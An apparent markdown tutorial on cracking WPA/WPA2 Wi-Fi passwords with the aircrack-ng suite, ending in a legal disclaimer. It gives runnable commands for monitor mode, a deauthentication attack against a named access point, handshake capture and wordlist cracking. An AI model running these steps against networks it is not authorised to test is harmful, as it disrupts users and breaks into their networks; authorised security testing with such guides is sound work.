







# Aircrack-ng: The Complete Wi-Fi Cracking Guide

## Introduction to Aircrack-ng

Aircrack-ng is a powerful suite of tools used for **Wi-Fi network security assessment**. It includes utilities for:

- **Capturing** Wi-Fi packets (including WPA/WPA2 handshakes)
- **Cracking** WEP, WPA-PSK, and WPA2-PSK keys
- **Performing** deauthentication attacks
- **Analyzing** network traffic
- **Injecting** packets to force handshakes

### What's in the Suite?

| Tool | Purpose |
|------|---------|
| `airmon-ng` | Enable/disable monitor mode on wireless adapter |
| `airodump-ng` | Capture Wi-Fi packets and identify networks |
| `aireplay-ng` | Replay captured packets and deauthenticate clients |
| `aircrack-ng` | Crack WEP and WPA/WPA2 passwords |
| `airdecap-ng` | Decrypt captured packets if password known |
| `airbase-ng` | Create fake AP (for advanced attacks) |
| `airgraph-ng` | Generate graphs from captured data |

## Prerequisites

### Hardware Requirements
- **Linux system** (Kali Linux recommended)
- **Wi-Fi adapter** that supports monitor mode
  - Recommended: TP-LINK TL-WN722N
  - Other options: Alfa Networks, Atheros chipset, Ralink
  - RTL8188CUS, Realtek chipsets also supported
- **Target Wi-Fi network** (WEP/WPA/WPA2)
- **Wordlist** for password cracking
  - `/usr/share/wordlists/rockyou.txt` (Kali default)
  - Or custom wordlists

### Software Requirements
- Kali Linux or similar Linux distribution
- Aircrack-ng suite installed
- Root access (required for monitor mode)

### Knowledge Requirements
- Basic Linux command line
- Understanding of Wi-Fi concepts
- Network terminology (BSSID, SSID, channel)

## Step-by-Step Wi-Fi Cracking Process

### Step 1: Check and Enable Monitor Mode

Monitor mode allows capturing packets without associating with an AP.

**Check current wireless interfaces:**
```bash
# List all wireless interfaces
iwconfig

# Output should show wlan0, wlan1, etc.
```

**Enable monitor mode:**
```bash
# Start monitor mode on wlan0
sudo airmon-ng start wlan0

# Output will show new interface (usually wlan0mon)
# Example output:
# Interface       Chipset         Driver
# wlan0           Atheros AR9271  ath9k_htc - [phy0]
# (monitor mode enabled on wlan0mon)
```

**Kill interfering processes:**
```bash
# Some services may block monitor mode
sudo airmon-ng check kill

# Stops: NetworkManager, dhcpd, etc.
```

**Verify monitor mode is enabled:**
```bash
# Should see "Monitor" mode
iwconfig wlan0mon

# Output:
# wlan0mon  IEEE 802.11  Mode:Monitor  Frequency:2.4 GHz
```

---

### Step 2: Scan for Target Networks

List all nearby Wi-Fi networks to find your target.



**Basic scan:**
```bash
# Scan for all networks
sudo airodump-ng wlan0mon

```
- Lists all nearby Wi-Fi networks with:
- BSSID (AP MAC address)
- Channel
- Encryption type (WEP/WPA/WPA2)

**Filtered scan (save BSSID information):**
```bash
# Continue scanning and write to file
sudo airodump-ng -w networks wlan0mon

# Creates files:
# networks-01.csv
# networks-01.kismet.csv
# networks-01.netxml
```

---

### Step 3: Capture Handshake (WPA/WPA2)

Capture the complete 4-way handshake to crack the password later.



- 1st Window:
- Make sure replace the channel number and bssid with my own
- File Name: hack1 for capture handshake file and packets.

**Method 1: Passive Capture**
```bash
# Capture traffic from specific AP
sudo airodump-ng -w capture -c 11 --bssid 1E:CF:18:34:0C:D5 wlan0mon

# -w capture: Write to file named "capture"
# -c 11: Monitor channel 11 (replace with target channel)
# --bssid: Specific AP to target
# Leave running and wait for client to connect
```

**Method 2: Force Handshake with Deauthentication Attack**

Deauthentication forces clients to reconnect, capturing handshake.

**Terminal 1: Start Capturing**
```bash
# Start capture in first terminal
sudo airodump-ng -w capture -c 11 --bssid 1E:CF:18:34:0C:D5 wlan0mon

# Keep this running
```

**Terminal 2: Perform Deauth Attack**



```bash
# In second terminal, send deauth packets
sudo aireplay-ng --deauth 10 -a 1E:CF:18:34:0C:D5 wlan0mon

# --deauth 10: Send 10 deauth packets
# -a [BSSID]: Target AP MAC address
# Repeat this command if needed
```

**What You'll See:**
- Clients disconnect from AP
- Clients reconnect automatically
- **Handshake captured!** ✓ (Watch for "[+] WPA handshake: XX:XX:XX:XX:XX:XX")

---

### Step 4: Verify Handshake with Wireshark

Verify the captured handshake contains all 4 messages.





**Open capture file in Wireshark:**
```bash
# View capture file
wireshark capture-01.cap &

# Or command line
tshark -r capture-01.cap -Y eapol
```

**Filter for EAPOL frames:**
- In Wireshark: Filter field type `eapol`
- Look for 4 EAPOL Key frames:
  1. Message 1: ANonce
  2. Message 2: SNonce + MIC
  3. Message 3: GTK + MIC
  4. Message 4: ACK

**Handshake Complete Indicators:**
```
Message 1 -> Frame 1
Message 2 -> Frame 2 (key_info: 0x0101 or 0x0109)
Message 3 -> Frame 3 (key_info: 0x13c9 or 0x13cd)
Message 4 -> Frame 4 (key_info: 0x0300)
```

---

### Step 5: Stop Monitor Mode

After capturing, disable monitor mode.

```bash
# Stop monitor mode
sudo airmon-ng stop wlan0mon

# Restore normal mode
iwconfig wlan0

# Restart networking (optional)
sudo service networking restart
```

---

### Step 6: Password Cracking with Aircrack-ng

Crack the captured WPA2 password using a wordlist.




**Crack with rockyou.txt:**
```bash
# Crack the password
sudo aircrack-ng capture-01.cap -w /usr/share/wordlists/rockyou.txt

# -w: Path to wordlist
# Output will show:
# [00:00:XX] Tried 50000 keys in X seconds (XX keys/sec)
# KEY FOUND! [password123]
```

**Crack with custom wordlist:**
```bash
# Use your own wordlist
sudo aircrack-ng capture-01.cap -w /path/to/wordlist.txt

# Show progress
sudo aircrack-ng capture-01.cap -w /path/to/wordlist.txt -b 1E:CF:18:34:0C:D5
```

**Crack with GPU acceleration (faster):**
```bash
# Using pyrit with GPU support
pyrit -r capture-01.cap -b 1E:CF:18:34:0C:D5 attack_db

# Much faster than CPU-only
```

---

One more thing.. I am use TP-LINK TL-WN722N adapter.


## Legal and Ethical Considerations

### ⚠️ IMPORTANT DISCLAIMER

**This guide is for EDUCATIONAL purposes only**

- **Only crack networks you own or have explicit written permission to test**
- **Unauthorized access to networks is ILLEGAL**
- **Performing attacks without permission violates:**
  - Computer Fraud and Abuse Act (CFAA) - USA
  - Computer Misuse Act - UK
  - Similar laws in other countries

### Legitimate Uses
- ✅ Testing your own networks
- ✅ Authorized penetration testing (with written contract)
- ✅ Security research
- ✅ Educational learning in controlled labs
- ✅ Home network security testing

### What NOT to Do
- Crack neighbor's Wi-Fi
- Test without written permission
- Access systems you don't own
- Use skills for malicious purposes

---
